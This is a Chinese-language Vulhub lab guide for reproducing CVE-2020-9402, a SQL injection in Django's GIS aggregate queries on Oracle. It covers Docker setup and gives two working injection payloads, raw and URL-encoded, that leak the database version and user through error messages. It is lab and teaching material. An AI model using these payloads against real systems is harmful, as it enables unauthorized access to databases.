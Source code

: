 # Django GIS SQL注入漏洞 CVE-2020-9402

## 漏洞描述

Django在2020年3月4日发布了一个安全更新，修复了在GIS 查询功能中存在的SQL注入漏洞。

参考链接：

- https://www.djangoproject.com/weblog/2020/mar/04/security-releases/

该漏洞需要开发者使用了GIS中聚合查询的功能，用户在oracle的数据库且可控tolerance查询时的键名，在其位置注入SQL语句。

## 环境搭建

Vulhub执行如下命令编译及启动一个存在漏洞的Django 3.0.3：

```
docker-compose build
docker-compose up -d
```

环境启动后，访问`http://your-ip:8000`即可看到Django默认首页。

## 漏洞复现

### 漏洞一

首先访问`http://your-ip:8000/vuln/`。

在该网页中使用`get`方法构造`q`的参数，构造SQL注入的字符串`20) = 1 OR (select utl_inaddr.get_host_name((SELECT version FROM v$instance)) from dual) is null OR (1+1`

```
http://your-ip:8000/vuln/?q=20)%20%3D%201%20OR%20(select%20utl_inaddr.get_host_name((SELECT%20version%20FROM%20v%24instance))%20from%20dual)%20is%20null%20%20OR%20(1%2B1
```

可见，括号已注入成功，SQL语句查询报错：

![img](https://vulhub.org/vulhub/django/CVE-2020-9402/1.png)

### 漏洞二

访问`http://your-ip:8000/vuln2/`。 在该网页中使用`get`方法构造`q`的参数，构造出SQL注入的字符串`0.05))) FROM "VULN_COLLECTION2" where (select utl_inaddr.get_host_name((SELECT user FROM DUAL)) from dual) is not null --`

```
http://your-ip:8000/vuln2/?q=0.05)))%20FROM%20%22VULN_COLLECTION2%22%20%20where%20%20(select%20utl_inaddr.get_host_name((SELECT%20user%20FROM%20DUAL))%20from%20dual)%20is%20not%20null%20%20--
```

![img](https://vulhub.org/vulhub/django/CVE-2020-9402/2.png)
